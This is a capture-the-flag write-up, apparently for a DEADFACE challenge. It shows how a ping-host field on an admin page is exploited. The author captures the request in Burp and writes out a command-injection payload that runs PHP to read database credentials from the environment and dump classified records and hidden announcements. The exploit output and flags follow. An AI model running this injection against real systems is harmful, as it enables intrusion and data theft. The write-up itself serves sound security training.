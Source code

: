 **Author:** @syyntax

**Description:** DEADFACE was able to retrieve an announcement that was hidden by administrators. This announcement contained sensitive information (flag) that DEADFACE was able to compromise. Find the flag associated with the hidden announcement. Submit the flag as `deadface{flag text}`. [http://env01.deadface.io:8080](http://env01.deadface.io:8080). 

At this point I have RCE. On the admin page there is a "System Diagnostics" button where I can test network connectivity for university servers. 

I open burp and intercept the request. The request looks like this:
```http
POST /admin.php HTTP/1.1
Host: env01.deadface.io:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://env01.deadface.io:8080/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://env01.deadface.io:8080
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=becbd2c1ebdec6c5363fac9e8bdd0114
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ping_host=1&host=8.8.8.8
```

I add this payload to the end to dump the flags hidden in the sql database:
```php
ping_host=1&host=8.8.8.8 | php -r '$h=getenv("DB_HOST")?: "db"; $d=getenv("DB_NAME")?: "nvu_portal"; $u=getenv("DB_USER")?: "nvu_user"; $p=getenv("DB_PASS")?: "NightVale2023!"; $pdo=new PDO("mysql:host=$h;dbname=$d;charset=utf8mb4",$u,$p,[PDO::ATTR_ERRMODE=>PDO::ERRMODE_EXCEPTION]); foreach($pdo->query("SELECT id,project_name,details FROM research_projects WHERE classified=1") as $r){print_r($r);} foreach($pdo->query("SELECT id,title,content FROM announcements WHERE is_hidden=1") as $r){print_r($r);}'
```

After forwarding this I get the "classified research" as well. Output:
```sql
Array 
	( 
	[id] => 2 
	[0] => 2 
	[project_name] => Neural Interface Technology 
	[1] => Neural Interface Technology 
	[details] => FLAG: deadface{cl4ss1f13d_r3s34rch_unh4ck4bl3} - Advanced brain-computer interface development with military applications 
	[2] => FLAG: deadface{cl4ss1f13d_r3s34rch_unh4ck4bl3} - Advanced brain-computer interface development with military applications ) 
Array 
	( 
	[id] => 4 
	[0] => 4 
	[project_name] => Cryptographic Algorithm Research 
	[1] => Cryptographic Algorithm Research 
	[details] => Post-quantum cryptography for government communications 
	[2] => Post-quantum cryptography for government communications ) 
Array 
	( 
	[id] => 4 
	[0] => 4 
	[title] => Restricted Access Notice 
	[1] => Restricted Access Notice 
```